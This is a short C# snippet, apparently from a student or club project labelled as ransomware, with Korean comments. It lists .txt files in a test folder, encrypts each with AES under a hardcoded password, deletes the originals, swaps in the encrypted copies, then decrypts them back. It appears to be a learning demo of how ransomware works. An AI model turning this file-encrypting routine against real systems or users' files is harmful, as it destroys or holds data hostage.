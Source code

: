         //경로 지정
        string dir = @"C:/Layer7Project/Ransomware/test/";
        List<string> files = new List<string>();
        DirectoryInfo d = new DirectoryInfo(dir);


        //원하는 파일의 형식(여러개도 가능)
        foreach (var file in d.GetFiles("*.txt"))
        {
            files.Add(file.ToString());
        }


        //암호화
        foreach (string file in files)
        {
            string encrypted_file = dir + "encrypted_file.txt";
            SharpAESCrypt.SharpAESCrypt.Encrypt("password", file, encrypted_file);
            File.Delete(file);
            File.Move(encrypted_file, file);
        }

        //복호화
        foreach (string file in files)
        {
            string decrypted_file = dir + "decrypted_file.txt";
            SharpAESCrypt.SharpAESCrypt.Decrypt("password", file, decrypted_file);
            File.Delete(file);
            File.Move(decrypted_file, file);
        }
    }
}
